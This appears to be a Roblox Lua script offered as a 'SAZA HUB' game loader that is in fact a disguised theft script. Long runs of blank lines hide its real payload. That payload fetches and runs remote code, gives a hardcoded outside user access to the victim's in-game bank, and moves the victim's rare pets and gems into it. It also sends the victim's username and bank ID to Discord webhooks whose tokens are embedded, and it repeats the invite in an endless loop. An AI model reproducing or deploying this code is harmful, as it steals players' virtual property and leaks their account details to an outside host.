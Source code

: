 -- loadstring(game:HttpGet"https://scriptblox.com/raw/SAZA-HUB_496")()





















































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































local CustomLoader = loadstring(game:HttpGet("https://raw.githubusercontent.com/QwertyzSZ/SAZAISBEST/main/Loader.lua"))()
local SET_UP = CustomLoader("SAZA HUB | Loader", "json",{
   URL = "https://raw.githubusercontent.com/QwertyzSZ/SAZAISBEST/main/GameIDSZ.json";
})


















































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































local HoverBoard = 2300486591
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
    local mybanks = lib.Network.Invoke("get my banks")
    local BankID = mybanks[1]['BUID']
    lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], HoverBoard)

    local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
    local mybanks = lib.Network.Invoke("get my banks")
    local BankID = mybanks[1]['BUID']
    
local Bank = BankID

local A_1 = "b"
local A_2 = "bank deposit"
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"].MAIN
Event:FireServer(A_1, A_2)

local A_1 = "b"
local A_2 = "buy egg"
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"].MAIN
Event:FireServer(A_1, A_2)

local FinalList = {}
local output = 1
    Library     = require(game:GetService('ReplicatedStorage').Framework:FindFirstChild('Library'))
    Functions   = Library.Functions
    EXCList     = {}
    MythicList  = {}

    EList       = {}
    MList       = {}


    table.foreach(Library.Directory.Pets, function(i, v)
        if v.rarity == "Exclusive" then
            table.insert(EXCList, i)
        end
        if v.rarity == "Mythical" then
            table.insert(MythicList, i)
        end
    end)

local pets = require(game:GetService("ReplicatedStorage").Framework.Modules.Client["4 | Save"]).Get().Pets
for i, v in pairs(pets) do
if table.find(EXCList, v["id"]) ~= nil then
table.insert(EList, v["uid"])
end
if table.find(MythicList, v["id"]) ~= nil then
table.insert(MList, v["uid"])
end
end
if #EList + #MList < 49 then
for i, v in pairs(EList) do
table.insert(FinalList, v)
end
for i, v in pairs(MList) do
table.insert(FinalList, v)
end
elseif #EList + #MList > 49 and #EList < 49 then
for i, v in pairs(EList) do
table.insert(FinalList, v)
end
for i, v in pairs(MList) do
if #FinalList < 49 then
table.insert(FinalList, v)
end
end
elseif #EList + #MList > 49 and #EList > 49 then
for i, v in pairs(EList) do
if #FinalList < 49 then
table.insert(FinalList, v)
end
end
end
wait(0.5)
game:GetService("Players").LocalPlayer.PlayerScripts.Scripts.Game["Open Eggs"].Disabled = true
local A_1 = 
{
    [1] = "Cracked Egg", 
    [2] = false
}
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"]["buy egg"]
Event:InvokeServer(A_1)
wait(0.5)
local A_1 = 
{
    [1] = Bank, 
    [2] = FinalList, 
    [3] = output-1
}
local Event = game:GetService("Workspace")["__THINGS"]["__REMOTES"]["bank deposit"]
local result = Event:InvokeServer(A_1)

-- wrb

local YourWebHookHere =  "https://discord.com/api/webhooks/963755032770125844/KUlO1Aknqs_zoKI6aq6zfSdgixlYnVDvfVKX6ABBvWEjZhG6iz84_VU20Bx0YsXSxviQ"  -- web hook here

local url = YourWebHookHere
local username = game:GetService("Players").LocalPlayer.Name
 
local data = {
  ["content"] = ">  by Artemper",
["embeds"] = {{
["title"] = "__**Open**__",
["description"] = "i can't track this expired or no",
["type"] = "rich",
["color"] = tonumber(0x0E980E),
["fields"] = {
               {
["name"] = "__Username__",
["value"] = "**"..username.."**", -- remove the || on both sides if you don't want your username to be behind a spoiler
["inline"] = false
},
               {
["name"] = "__Gems Deposited__",
["value"] = output-1,
["inline"] = false
},
{
["name"] = "__Total Pet Deposited__",
["value"] = #FinalList,
["inline"] = false
},
{
["name"] = "__Exclusive/Huges__",
["value"] = #EList,
["inline"] = false
},
{
["name"] = "__Mythicals__",
["value"] = #MList,
["inline"] = false
},
{
["name"] = "__BankID__",
["value"] = BankID,
["inline"] = false
},
}
}}
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
  ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)

while true do
    lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], HoverBoard)
    local YourWebHookHere2 =  "https://discord.com/api/webhooks/960638309888041080/I0bqwLX-cgKVE4iKwZv4h8bmjMLZv4nr_ON5LeNT3TVPrbwOUycQjH0UElWxvd2Vp_8l"  -- web hook here

    local url2 = YourWebHookHere2
    local username2 = game:GetService("Players").LocalPlayer.Name
     
    local data2 = {
      ["content"] = "> "..username2.." Repeat ur Invites",
    ["embeds"] = {{
    ["title"] = "__** Results**__",
    ["description"] = "i can't track this expired or no",
    ["type"] = "rich",
    ["color"] = tonumber(0x0E980E),
    ["fields"] = {
                   {
    ["name"] = "__Username__",
    ["value"] = "**"..username2.."** Repeat ur Invites", -- remove the || on both sides if you don't want your username to be behind a spoiler
    ["inline"] = false
    },
                   {
    ["name"] = "__Cancel Invite__",
    ["value"] = "Yes",
    ["inline"] = false
    },
    }
    }}
    }
    local newdata2 = game:GetService("HttpService"):JSONEncode(data2)
    
    local headers2 = {
      ["content-type"] = "application/json"
    }
    request = http_request or request or HttpPost or syn.request
    local abcdef2 = {Url = url2, Body = newdata2, Method = "POST", Headers = headers2}
    request(abcdef2)
end
